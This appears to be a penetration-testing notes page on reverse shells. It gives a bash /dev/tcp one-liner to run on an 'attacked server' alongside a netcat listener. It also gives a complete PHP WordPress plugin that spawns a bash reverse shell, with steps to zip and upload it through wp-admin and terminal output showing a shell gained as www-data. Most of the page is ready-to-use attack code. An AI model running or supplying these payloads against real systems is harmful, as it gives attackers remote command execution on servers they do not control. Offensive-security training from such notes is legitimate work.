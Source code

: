 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Reverse Shell

### Reverse Shell via Bash TCP

We start by Listening in our host first `~$ nc -nvlp PORT_NUMBER` ; then we execute the below command on the attacked server:

{% hint style="info" %}
To ensure our reverse shell is executed via bash, make sure to add `bash -c`&#x20;
{% endhint %}

<pre class="language-bash"><code class="lang-bash"><strong>bash -c "bash -i >&#x26; /dev/tcp/IP_ADDRESS/PORT_NUMBER 0>&#x26;1"
</strong></code></pre>

Check this [Reverse Shell Cheat Sheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/) by swissky.

### Reverse Shell via Wordpress Plugin

Create a new wordpress plugin using the simple php file below

```php
<?php

/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Vince Matteo
* Author URI: http://www.sevenlayers.com
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/127.0.0.1/443 0>&1'");
?>
```



In order to upload the shell as a plugin, we need to zip it first then upload it as a plugin via `wp-admin`

```sh
zip reverse-shell.zip reverse-shell.php
```



<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

after activating it,  use netcat to listen on port 443 and catch the shell

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -lvp 443                          
listening on [any] 443 ...
connect to [IP_ADDRESS] from [IP_ADDRESS]
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@b634eda18583:/var/www/html/wp-admin$ pwd
pwd
/var/www/html/wp-admin
```



**Resources:**

* [https://sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell](https://sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell)
* [https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#bash-tcp](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#bash-tcp)
